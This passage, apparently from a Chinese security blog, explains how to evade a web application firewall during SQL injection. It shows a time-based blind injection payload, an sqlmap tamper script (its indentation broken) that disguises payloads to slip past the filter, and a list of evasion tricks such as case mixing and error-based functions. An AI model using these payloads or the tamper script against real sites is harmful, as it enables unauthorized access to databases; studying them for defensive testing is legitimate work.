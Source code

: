 ```
and '1' like if(ascii(substr(user(),1,1)) like 113,1,sleep(5))

```

能遇到某锁不拦截这些函数感觉也挺奇怪的

下面讲一下如果拦截我们应该使用什么方法绕过呢

这里只提供知识点没有实战

## 0x03 自动化Bypass（扩展）

这里扩充一下编写tamper bypass脚本

先直接使用SQLmap进行测试（毋庸置疑，肯定失败）：


![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-faac6760d2f122435e4f160d2e53ad64_hd.jpg)

在经过大量测试以后，我们定位特征，写出了bypass脚本：

```python
#!/usr/bin/env python
import re
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload):
    if payload:
              pass
              payload =
payload.replace("SLEEP(5)","\"0\" LikE Sleep(5)")
       payload=payload.replace("","/*FFFFFFFFFFFFFFFFFFFFFFFFF*/")
              p = re.compile(r'(\d+)=')
              payload= p.sub(r"'\1'LikE ", payload)
return payload
```
测试结果：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-4e0f4750e89249adf297fa0ce8e9d831_hd.jpg)

## 0x04 小总结

等价替换

前面已经讲解了 等价函数和等价符号

大小写替换 想必这个大家应该都知道 把字母的大写小写替换下就行了例如 SeLeCt LiKe UnIoN

不常用函数
一般经常在报错注入中使用

例如floor(),extractvalue(),updatexml(),exp() 这些 原因是因为waf 可能没考虑到这些函数的危害

特殊符号

例如 `“+”,“-”,“@”,“！”,“~”`等等很多的特殊符号
